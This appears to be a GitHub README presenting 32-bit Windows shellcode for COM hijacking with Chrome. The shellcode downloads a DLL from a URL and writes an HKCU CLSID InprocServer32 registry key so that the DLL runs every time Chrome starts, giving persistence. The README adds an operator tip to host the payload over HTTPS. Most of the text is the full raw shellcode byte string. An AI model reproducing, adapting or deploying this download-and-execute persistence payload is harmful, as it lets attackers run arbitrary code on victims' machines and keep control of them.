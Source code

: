 # x86-com-hijack-shellcode
32 bit shellcode that performs COM hijacking with Chrome

## Usage: 
The shellcode will download a DLL from the URL "http://localhost/d.dll" and save it to "C:\Users\Public\d.dll". It then creates the registry key "HKCU\SOFTWARE\Classes\CLSID\{A4B544A1-438D-4B41-9325-869523E2D6C7}\InprocServer32", and sets the following values in it:
- (Default) = "C:\Users\Public\d.dll"
- ThreadingModel = "Apartment"

With these values set d.dll will be executed every time Google Chrome starts up, resulting in persistence on the system.

### Note:
The URLDownloadToFileA API is picky about the URLs supplied to it, and I could not get the API to work over HTTP with any sites I was accessing over WAN. However, HTTPS works just fine, so be sure to host the DLL on a URL over HTTPS if modifying the shellcode to download something over the internet.

### Raw shellcode:
\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0f\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x33\x59\xe0\x8e\xff\x55\x04\x89\x45\x10\x68\x6c\x43\x3c\x58\xff\x55\x04\x89\x45\x14\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\x55\x14\x89\xc3\x68\x33\x9d\x5e\x72\xff\x55\x04\x89\x45\x18\x31\xc0\x50\x68\x2e\x64\x6c\x6c\x68\x70\x69\x33\x32\x68\x61\x64\x76\x61\x54\xff\x55\x14\x89\xc3\x68\xf4\x39\x35\xca\xff\x55\x04\x89\x45\x1c\x68\xf3\x30\xa0\x7e\xff\x55\x04\x89\x45\x20\x68\xd5\xd2\x53\xfd\xff\x55\x04\x89\x45\x24\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x2f\x64\x2e\x64\x68\x68\x6f\x73\x74\x68\x6f\x63\x61\x6c\x68\x3a\x2f\x2f\x6c\x68\x68\x74\x74\x70\x54\x5f\x31\xc0\xb0\x6c\x50\x68\x64\x2e\x64\x6c\x68\x6c\x69\x63\x5c\x68\x5c\x50\x75\x62\x68\x73\x65\x72\x73\x68\x43\x3a\x5c\x55\x54\x5e\x31\xc0\x50\x50\x56\x57\x50\xff\x55\x18\x31\xc0\x50\x54\x5f\x50\x68\x65\x72\x33\x32\x68\x53\x65\x72\x76\x68\x70\x72\x6f\x63\x68\x7d\x5c\x49\x6e\x68\x44\x36\x43\x37\x68\x32\x33\x45\x32\x68\x38\x36\x39\x35\x68\x33\x32\x35\x2d\x68\x34\x31\x2d\x39\x68\x44\x2d\x34\x42\x68\x2d\x34\x33\x38\x68\x34\x34\x41\x31\x68\x41\x34\x42\x35\x68\x49\x44\x5c\x7b\x68\x5c\x43\x4c\x53\x68\x73\x73\x65\x73\x68\x5c\x43\x6c\x61\x68\x57\x41\x52\x45\x68\x53\x4f\x46\x54\x54\x59\x50\x57\x50\xbb\xff\x3f\x01\x0f\xc1\xeb\x08\x53\x50\x50\x50\x51\xb8\xff\xff\xff\x7f\xf7\xd8\x50\xff\x55\x1c\xb8\xeb\xff\xff\xff\xf7\xd8\x50\x56\x31\xc0\x40\x50\x48\x50\x50\x8b\x3f\x57\xff\x55\x20\xb8\x8c\xff\xff\xff\xf7\xd8\x50\x68\x74\x6d\x65\x6e\x68\x41\x70\x61\x72\x54\x5b\x66\xb8\x65\x6c\x50\x68\x67\x4d\x6f\x64\x68\x61\x64\x69\x6e\x68\x54\x68\x72\x65\x54\x59\xb8\xf6\xff\xff\xff\xf7\xd8\x50\x53\xb0\x01\x50\x48\x50\x51\x57\xff\x55\x20\x57\xff\x55\x24\x31\xc9\x51\x6a\xff\xff\x55\x10
